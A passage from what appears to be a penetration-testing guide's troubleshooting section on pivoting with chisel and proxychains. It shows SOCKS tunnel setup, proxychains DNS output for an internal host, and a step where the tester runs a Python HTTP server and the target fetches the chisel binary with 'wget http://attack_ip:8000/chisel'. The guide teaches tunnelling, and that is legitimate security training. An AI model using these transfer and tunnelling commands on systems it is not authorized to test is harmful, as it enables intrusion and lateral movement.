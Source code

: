 ```bash
# Verify fix:
tail -n5 /etc/proxychains4.conf
```

#### **SOCKS Proxy Not Working**
```bash
# Problem: proxychains connection fails
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-request| 172.16.5.19
|S-chain|-<>-127.0.0.1:1080-<><>-4.2.2.1:53-<><>-OK
|DNS-response| 172.16.5.19 is 172.16.5.19

# Solutions:
1. Check SOCKS proxy is listening
   netstat -tlnp | grep 1080

2. Test with simple command
   proxychains curl http://172.16.5.19

3. Verify proxychains.conf
   tail /etc/proxychains.conf
```

#### **Binary Transfer Issues**
```bash
# Problem: SCP permission denied
scp: /tmp/chisel: Permission denied

# Solutions:
1. Transfer to user home directory
   scp chisel ubuntu@target:~/

2. Use different transfer method
   # Python HTTP server
   python3 -m http.server 8000
   # On target: wget http://attack_ip:8000/chisel

3. Check disk space
   df -h /tmp
```

### **Performance Optimization**
```bash
# Increase connection timeout
./chisel client --keepalive 30s target:1234 socks

# Disable compression for speed
./chisel server --no-compression -p 1234 --socks5

# Use different ports to avoid conflicts
./chisel server -p 8080 --socks5  # Server port
./chisel client target:8080 socks  # SOCKS on 1080
```

---